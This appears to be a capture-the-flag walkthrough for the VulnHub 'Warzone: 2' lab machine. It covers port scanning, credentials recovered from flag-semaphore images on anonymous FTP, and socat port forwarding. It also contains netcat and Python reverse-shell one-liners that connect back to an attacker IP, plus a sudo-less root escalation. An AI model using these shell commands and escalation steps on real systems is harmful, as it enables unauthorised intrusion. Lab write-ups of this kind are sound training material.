






# Warzone: 2

[Machine](https://www.vulnhub.com/entry/warzone-2,598/ "https://www.vulnhub.com/entry/warzone-2,598/")

## Reconnaissance

### nmap

#### Ports scanning:
```
nmap -sS -T4 -p- 192.168.88.224 -oA ports
```
#### Services scanning:
```
nmap -sV -O -p21,22,1337 192.168.88.224 -oA services
```
### ftp

Anonymous login is allowed.



From there we have a three pictures.

username:



password:



token:



I searched for cipher on the username and password pictures. And i got [flag semaphore](https://en.wikipedia.org/wiki/Flag_semaphore "https://en.wikipedia.org/wiki/Flag_semaphore").

Decode the symbols from pictures and get a username and a password in `creds/`. I wrote it in upper case as wiki says.

### port 1337

1337 port seems to be a custom application.

I tried to take a banner:


## Threat modelling

I think that it is enough to gather. Now we have the creds and have the 1337 port with login. I believe we easily will get remote access and that's all. 

By the way, need to write a script to create the token!

## Vulnerability analysis

### vsftpd

Not vulnerable.

### ssh

Not vulnerable.

### Misconfiguration of ftp

The main vulnerability is this. But i don't know about backend of 1337 port. Maybe here we can also have binary vulnerabilities.

## Exploitation

### Token

[Script to create a token](token.py)

Successfully got access with 'lower' credentials.


But we don't have shell yet.

### Shell

Get shell is easy:

Local:
```
nc -lnvp 4444
```
Target:
```
nc 192.168.88.225 4444 -c /bin/sh
```
So, after target connected to us, it will open a shell.



```
python -c 'import pty;pty.spawn("/bin/bash")'
```
User - `www-data`.

### ssh flagman

In flagman home directory:



Now we have a good shell and ssh access.

## Post exploitation

`sudo -l` will show you admiral wrz2-app.py execute permission which is similiar to server from previous machine Warzone 1
```
sudo -u admiral /usr/bin/python3 /home/admiral/warzone2-app/wrz2-app.py
```
Then you will see the PIN to console on web server. It was not available in previous server because you can see it only on the server side.
Also, the app shows you that it is running on 127.0.0.1:5000 which is local service.

### Port forwarding

I used socat as flagman:
```
socat TCP-LISTEN:8080, fork TCP:127.0.0.1:5000
```

Then go to attack-machine:8080 and you will get the available service.

### /console

In console, we can execute whatevere we want with python. So execute a reverse shell with open nc server:
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.88.225",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
Got admiral.

### root

`sudo -l will` show you that you can execute less and see the content of warzone-rules.txt

with GTFOBins you can easily get a root:
```
sudo -u root /usr/bin/less /var/public/warzone-rules.txt
!/bin/sh
```

## Sources

### Flag semaphore

[wiki](https://en.wikipedia.org/wiki/Flag_semaphore "https://en.wikipedia.org/wiki/Flag_semaphore")

### Port forwarding with socat

[port forwarding](https://stackoverflow.com/questions/34791674/socat-port-forwarding-for-https "https://stackoverflow.com/questions/34791674/socat-port-forwarding-for-https")

### GTFOBins

[shell with less binary](https://gtfobins.github.io/gtfobins/less/#shell "https://gtfobins.github.io/gtfobins/less/#shell")
